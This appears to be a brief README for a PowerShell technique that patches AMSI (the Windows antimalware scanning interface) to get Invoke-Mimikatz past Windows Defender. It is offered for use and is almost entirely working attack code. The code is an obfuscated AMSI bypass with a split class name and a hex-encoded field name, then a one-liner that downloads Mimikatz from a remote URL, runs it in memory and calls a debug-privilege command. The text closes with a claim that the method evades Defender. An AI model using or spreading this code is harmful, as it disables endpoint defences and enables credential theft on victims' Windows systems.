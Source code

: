 # note
Patch API AmsiScanBuffer so to bypass amsi 

The original mimikatz.ps1 can't run on win10,so I patch the original ps1,the link is : https://github.com/PowerShellMafia/PowerSploit/issues/320 

run powershell,then:

`$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')`
`$h="4456625220575263174452554847"`
`$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "`
`$b =$a.GetField($s,'NonPublic,Static')`
`$b.SetValue($null,$true)`

`IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug coffee"`





Now It can bypass Windows Defender (2021--27)

![screenshot](screenshot.png)
